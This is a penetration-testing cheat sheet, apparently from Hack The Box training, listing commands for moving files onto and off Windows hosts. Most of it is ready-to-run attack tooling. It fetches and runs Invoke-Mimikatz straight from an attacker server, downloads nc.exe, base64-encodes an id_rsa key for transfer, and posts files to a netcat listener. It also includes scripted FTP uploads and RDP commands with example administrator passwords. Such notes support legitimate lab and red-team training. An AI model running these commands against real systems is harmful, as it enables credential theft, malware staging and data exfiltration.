 ```yaml
---
title: Windows File Transfer
category: Access
tags: [download, upload, wget, curl, rdp, powershell]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
---
```


# Windows File Transfer

## Download Operations

### HTTP Method

```bash
python3 -m http.server 80
```

```powershell
# Execute a remote script
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1')

# Invoke-Web-Request
IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe

# Non-Interactive
(New-Object System.Net.WebClient).DownloadFile('http://172.16.1.30/nc.exe', 'C:\temp\nc.exe')

# Using certutil
certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

---

### SMB

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```powershell
# Mount
net use n: \\192.168.1.10\share /user:test test

# Download
copy \\192.168.1.10\nc.exe C:\temp\nc.exe

# Upload
copy C:\temp\supersecret.txt \\192.168.1.10\supersecret.txt
```

---

### PowerShell Base64 Encode & Decode

Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

**Encoding**

```bash
# Get file hash
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

# Encode
cat id_rsa |base64 -w 0;echo
LS0tLS1CR ---SNIP--- tLS0tLQo=
```

**Decoding**

```powershell
# Decode
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR ---SNIP--- tLS0tLQo="))

# Check and match hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278
```

---

## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File Using PowerShell:**

```powershell
# Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cm ---SNIP--- YWxob3N0DQo=
# Get file hash
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

**Decode Base64 String in Linux:**

```bash
# Decode file
echo IyBDb3B5cm ---SNIP--- YWxob3N0DQo= | base64 -d > hosts

# Check and match hash
md5sum hosts 

3688374325b992def12793500307566d  hosts
```

---

### PowerShell Web Uploads Base64

**Start the server:**

`python3 -m uploadserver`

**Upload file:**

```powershell
# Encode | Send
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.1.10:8000/ -Method POST -Body $b64

# Catch with netcat and decode
nc -lvnp 8000

<base64> | base64 -d -w 0 > hosts
```

---

### Python FTP Uploads

**Start the server:**

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**PowerShell Upload:**

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

**Create a Command File for the FTP Client to Upload a File**

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.1.10

Log in with USER and PASS first.

ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## Misc

### PowerShell Session File Transfer

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**          

```powershell
whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**

`$Session = New-PSSession -ComputerName DATABASE01`

**Copy samplefile.txt from our Localhost to the DATABASE01 Session** 

`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

------

### RDP

Connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Mounting a Linux Folder Using rdesktop**

`rdesktop 192.168.1.10 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files`

**Mounting a Linux Folder Using xfreerdp**

`xfreerdp3 /v:192.168.1.10 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`

